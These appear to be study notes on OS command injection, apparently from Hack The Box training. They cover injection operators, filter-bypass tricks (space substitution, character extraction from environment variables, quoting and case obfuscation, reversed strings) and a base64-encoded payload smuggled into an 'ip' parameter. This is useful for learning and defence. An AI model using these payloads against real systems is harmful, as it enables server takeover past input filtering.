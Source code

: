 Many web applications execute local Operating System commands to perform certain processes. For example, a web application may install a plugin of our choosing by executing an OS command that downloads that plugin, using the plugin name provided. If not properly filtered and sanitized, attackers may be able to inject another command to be executed alongside the originally intended command (i.e., as the plugin name), which allows them to directly execute commands on the back end server and gain control over it. This type of vulnerability is called [command injection](https://owasp.org/www-community/attacks/Command_Injection).

This vulnerability is widespread, as developers may not properly sanitize user input or use weak tests to do so, allowing attackers to bypass any checks or filtering put in place and execute their commands.

For example, the WordPress Plugin `Plainview Activity Monitor 20161228` has a [vulnerability](https://www.exploit-db.com/exploits/45274) that allows attackers to inject their command in the `ip` value, by simply adding `| COMMAND...` after the `ip` value.


##### PHP
`exec`, `system`, `shell_exec`, `passthru`, or `popen`

`call_user_func_array` - can be vunerable through system PHP function

##### NodeJS
`child_process.exec` or `child_process.spawn` 

#### Operators:
```
%0a - new line
&
&&
|
;
```

##### Bypass spaces:
* `%09` - tab char
* `${IFS}` - variable of space and tab
* `{ls,-la}` - brace expansion
* Replace space with + or %2b

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space

###### Bypass /; blacklisted:
```shell
la1n23@htb[/htb]$ echo ${PATH:0:1}
/

la1n23@htb[/htb]$ echo ${LS_COLORS:10:1}
;
```

```powershell
C:\htb> echo %HOMEPATH:~6,-11%
\

$env:HOMEPATH[0]
\

PS C:\htb> $env:PROGRAMFILES[10]
PS C:\htb>

```


Shifting
```shell
la1n23@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
la1n23@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```

##### Bypass blacklisted commands
linux & win:
```shell
21y4d@htb[/htb]$ w'h'o'am'i

21y4d

21y4d@htb[/htb]$ w"h"o"am"i

21y4d
```

only linux:
```bash
w\ho\am\i

who$@ami
```

windows only:
```powershell
C:\htb> who^ami
```

##### Case manipulation

```shell
21y4d@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

Reverse string:
```shell-session
21y4d@htb[/htb]$ $(rev<<<'imaohw')
```

```powershell-session
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"
```

Automated tools:
https://github.com/Bashfuscator/Bashfuscator
https://github.com/danielbohannon/Invoke-DOSfuscation

base64
```
ip=1.1.1.1%0bash<<<$(base64 -d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```